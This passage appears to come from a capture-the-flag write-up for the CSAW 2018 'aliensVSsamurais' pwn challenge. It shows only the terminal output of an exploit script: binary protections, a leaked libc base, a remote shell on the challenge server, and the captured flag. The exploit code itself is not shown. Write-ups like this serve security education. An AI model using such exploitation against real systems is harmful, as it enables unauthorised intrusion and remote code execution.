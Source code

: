 and when we run it:

```
$	python exploit.py 
[*] '/Hackery/csaw18/pwn/alien/aliensVSsamurais'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/Hackery/csaw18/pwn/alien/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to pwn.chal.csaw.io on port 9004: Done

.	.	.

[*] libc base: 0x7f04c90d2000
[*] Switching to interactive mode
Brood mother, what tasks do we have today.
/bin/sh: 0: can't access tty; job control turned off
$ $ w
 05:07:27 up 14 days,  4:34,  0 users,  load average: 11.51, 11.31, 11.16
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ $ ls
aliensVSsamurais  art.txt  flag.txt  run.sh
$ $ cat flag.txt
flag{s000000000000maa@@@@@nnnnnYYYB@@@@@@neeeelinggs}
```

Just like that, we got the flag!